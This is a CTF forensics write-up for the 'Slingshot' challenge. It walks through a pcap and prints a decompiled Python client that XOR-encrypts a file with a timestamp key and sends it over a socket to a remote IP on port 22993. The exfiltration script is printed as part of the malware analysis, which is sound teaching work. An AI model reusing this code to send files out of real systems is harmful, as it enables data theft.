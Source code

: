 ## Slingshot [Forensics]

Solves: `111` Points: `280` Author: `AJ Hoepfner (greatvaluerice)`

Description: `We have recently suffered a data breach, and we need help figuring out if any data was stolen. Can you investigate this pcap file and see if there is any evidence of data exfiltration and if possible, what was stolen.`

<a href="/assets/zip/pctf2024/Slingshot.pcapng" class="btn btn-primary" download>
  <i class="fas fa-download"></i> Slingshot.pcapng
</a>

<br>

We are provided with a pcapng file, where on Protocol Hierarchy Statistics shows some HTTP traffic, we used wireshark filter to get them.


![alt text](../assets/ctf/pctf2024/sling0.png)

We download download.pyc which is a compiled version of .py file, to decompile i used [pylingual.io](https://pylingual.io/) to get the following script
```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: client.py
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 2024-09-17 17:47:38 UTC (1726595258)

import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993
with open(file, 'rb') as r:
    data_bytes = r.read()
current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))
s.connect((ip, port))
s.send(encrypt_bytes)
```
It is a custom encryption script for a sent file over the port 22993, while it's possible to develop a pyshark script to get the encrypted bytes of the file i only copied them from wireshark into a local file.
